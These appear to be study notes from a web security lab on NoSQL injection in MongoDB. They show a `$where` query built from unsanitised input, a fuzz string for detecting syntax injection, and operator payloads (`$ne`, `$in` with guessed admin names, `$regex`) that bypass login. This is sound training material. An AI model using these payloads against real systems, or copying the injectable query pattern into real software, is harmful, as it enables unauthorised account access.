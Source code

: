  There are two different types of NoSQL injection:
 - Syntax injection - This occurs when you can break the NoSQL query syntax, enabling you to inject your own payload. The methodology is similar to that used in SQL injection. However the nature of the attack varies significantly, as NoSQL databases use a range of query languages, types of query syntax, and different data structures.
 - Operator injection - This occurs when you can use NoSQL query operators to manipulate queries.

### Lab: Detecting NoSQL injection
There's a vulnerable to nosqli endpoint:
```bash
GET /filter?category=Accessories HTTP/1.1
```
So we try:
```bash
GET /filter?category=Accessories' 
```
And we get back the err:
```
Command failed with error 139 (JSInterpreterFailure): &apos;SyntaxError: unterminated string literal :
functionExpressionParser@src/mongo/scripting/mozjs/mongohelpers.js:46:25
&apos; on server 127.0.0.1:27017. The full response is {&quot;ok&quot;: 0.0, &quot;errmsg&quot;: &quot;SyntaxError: unterminated string literal :\nfunctionExpressionParser@src/mongo/scripting/mozjs/mongohelpers.js:46:25\n&quot;, &quot;code&quot;: 139, &quot;codeName&quot;: &quot;JSInterpreterFailure&quot;}
```
On the backend they have something like:
```bash
const result = await productMongooseModel.find({ $where: `this.category === '${req.query.category}'`})
```
That `$where` from official mongodb docs:
```
Use the $where operator to pass either a string containing a JavaScript expression or a full JavaScript function to the query system
```



## Detecting syntax injection in MongoDB
Consider a shopping application that displays products in different categories. When the user selects the Fizzy drinks category, their browser requests the following URL:
```
https://insecure-website.com/product/lookup?category=fizzy
```
 This causes the application to send a JSON query to retrieve relevant products from the `product` collection in the MongoDB database:
```
this.category == 'fizzy'
```
To test whether the input may be vulnerable, submit a fuzz string in the value of the `category` parameter. An example string for MongoDB is: 
```
'"`{
;$Foo}
$Foo \xYZ
```
Use this fuzz string to construct the following attack:
```
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
If this causes a change from the original response, this may indicate that user input isn't filtered or sanitized correctly.

> Note
> 
> NoSQL injection vulnerabilities can occur in a variety of contexts, and you need to adapt your fuzz strings accordingly. Otherwise, you may simply trigger validation errors that mean the application never executes your query.  
> In this example, we're injecting the fuzz string via the URL, so the string is URL-encoded. In some applications, you may need to inject your payload via a JSON property instead. In this case, this payload would become:
```
 '\"`{\r;$Foo}\n$Foo \\xYZ\u0000 
```



## NoSQL operator injection
## Submitting query operators
In JSON messages, you can insert query operators as nested objects. For example, `{"username":"wiener"}` becomes `{"username":{"$ne":"invalid"}}`. 

For URL-based inputs, you can insert query operators via URL parameters. For example, `username=wiener` becomes `username[$ne]=invalid`. If this doesn't work, you can try the following: 
1. Convert the request method from `GET` to `POST`.
1. Change the `Content-Type` header to `application/json`.
1. Add JSON to the message body.
1. Inject query operators in the JSON.

## Detecting operator injection in MongoDB
 Consider a vulnerable application that accepts a username and password in the body of a `POST` request:
```
{"username":"wiener","password":"peter"}
```
Test each input with a range of operators. For example, to test whether the username input processes the query operator, you could try the following injection: 
```
{"username":{"$ne":"invalid"},"password":{"peter"}}
```
 If the `$ne` operator is applied, this queries all users where the username is not equal to invalid.

If both the username and password inputs process the operator, it may be possible to bypass authentication using the following payload: 
```
{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}
```
This query returns all login credentials where both the username and password are not equal to `invalid`. As a result, you're logged into the application as the first user in the collection. 

To target an account, you can construct a payload that includes a known username, or a username that you've guessed. For example: 
```
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
```

### Tip from the lab:
Change the value of the username parameter from `{"$ne":""}` to `{"$regex":"wien.*"}`, then send the request. Notice that you can also log in when using the `$regex` operator.

